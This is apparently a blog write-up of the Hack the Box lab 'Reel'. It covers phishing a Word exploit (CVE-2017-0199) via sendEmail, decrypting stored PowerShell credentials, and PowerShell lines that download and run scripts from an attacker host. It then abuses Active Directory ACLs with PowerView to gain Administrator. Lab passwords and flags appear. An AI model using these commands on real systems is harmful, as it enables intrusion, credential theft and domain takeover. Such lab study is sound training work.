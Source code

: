 ```yaml
---
layout: post
title: Hack the Box - Reel
author: Kolja
categories: [HtB]
tags: [ad]
---
```



This box is part of the Active Directory 101 path, which is why I took a look at it.

## Enumeration
```
sudo nmap -sS -p- 10.10.10.77
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-24 16:24 EDT
Nmap scan report for 10.10.10.77
Host is up (0.036s latency).                                                 
Not shown: 65531 filtered tcp ports (no-response)                            
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
135/tcp open  msrpc

Nmap done: 1 IP address (1 host up) scanned in 164.70 seconds
```

The FTP share has multiple files. One of them prompts us to send `.rtf` files. Another gives details on applocker rules. 

We can find a mail address using `exiftool`:
```
exiftool Windows\ Event\ Forwarding.docx 
[...]
Creator                         : nico@megabank.com
[...]
```

## Foothold
When searching for `rtf` and remote code execution one of the first things, that comes up is CVE-2017-0199 which is a Microsoft Word vulnerability, that existed around the time the box was released. There is an exploit in `metasploit` from around that time:
```
exploit/windows/fileformat/office_word_hta
```
This gives us a file, which we then can send via email to the box:

```
sudo sendEmail -t nico@megabank.com -f techsupport@megabank.com -s 10.10.10.77 -u "Important Stuff" -a /root/.msf4/local/msf.doc
```
I had to play around with the ports a bit, but port 80 and port 443 seem to be reachable by the machine and this gave me a shell.

There is the flag as well as credentials on our Desktop:
```
C:\Users\nico\Desktop>type user.txt                                                                          
fa363aebcfa2c29897a69af385fee971
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
We can get credentials from this:
```
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

We can use the user tom to log in over ssh.

## Privilege escalation
We can run PrivescCheck, which does give us the credentials for the `nico` user:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/PrivescCheck.ps1')                             
PS C:\Users\tom> Invoke-PrivescCheck
[...]
+------+------------------------------------------------+------+                                                                
| TEST | CREDS > WinLogon                               | VULN |                                                                
+------+------------------------------------------------+------+                                                                
| DESC | Parse the Winlogon registry keys and check whether    |                                                                
|      | they contain any clear-text password. Entries that    |                                                                
|      | have an empty password field are filtered out.        |                                                                
+------+-------------------------------------------------------+                                                                
[*] Found 1 result(s).                                                                                                          


Domain   : HTB                                                                                                                  
Username : nico                                                                                                                 
Password : 4dri@na2017!** 
```

There were some files from an AD audit left on the machine. However, I found it easier to collect new data for BloodHound. For this I used the PowerShell collector:
```
PS C:\Users\tom> iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10/SharpHound.ps1')                             
PS C:\Users\tom> Invoke-BloodHound -CollectionMethod All
```

There were several interesting edges in the bloodhound data. Our user is a member of the `Print Operators`-Group, which is why we can log in on the DC. As we are in this group we should be able to load a vulnerable driver and escalate our privileges this way. However, as we have some AppLocker rules and as this is an Active Directory box this is probably not the intended path.

![Attack path one](/assets/htb_reel_attack_path_one.png)


Our user also has `WriteOwner`-Permissions on the `claire` user:

![Attack path two](/assets/htb_reel_attack_path_two.png)

The `claire` user has `GenericWrite` and `WriteDacl`-Permissions on a `backups_admins`-Group:
![Attack path three](/assets/htb_reel_attack_path_three.png)
Being a member of this group might allow us to back up for example the `NTDS.DIT` file. So my initial assumption is, that this might be the intended path here. The `nico` user has very similar properties to the `tom` user, however, as we have credentials for `tom` it seems easier to use the `tom` user.

Setting ourselves as the owner of `claire`:
```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```
Giving us `GenericAll` on `claire`:
```
Add-DomainObjectAcl -TargetIdentity claire -Rights All -PrincipalIdentity tom
```
Change password of `claire`:
```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

Creating a credentials object for `claire` to continue:
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $SecPassword)
```

Giving us the right to add members:
```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "BACKUP_ADMINS" -Rights WriteMembers -PrincipalIdentity claire
```
Adding `tom` as a group member:

```
Add-DomainGroupMember -Identity 'BACKUP_ADMINS' -Members 'tom' -Credential $Cred
```

Verifying, that this worked:
```
Get-DomainGroupMember -Identity 'BACKUP_ADMINS'
```

The `icacls` tool tells us, that we have access to the home folder of `Administrator` if we are a member of the `Backup_Admins`-Group. On the desktop of this user we find a script with the password for the user in it:
```
tom@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1                                                    
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"
[...]
```
We can then log in over ssh and get the root flag:
```
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

administrator@REEL C:\Users\Administrator>cd Desktop                                                                            

administrator@REEL C:\Users\Administrator\Desktop>type root.txt                                                                 
1018a0331e686176ff4577c728eaf32a
```
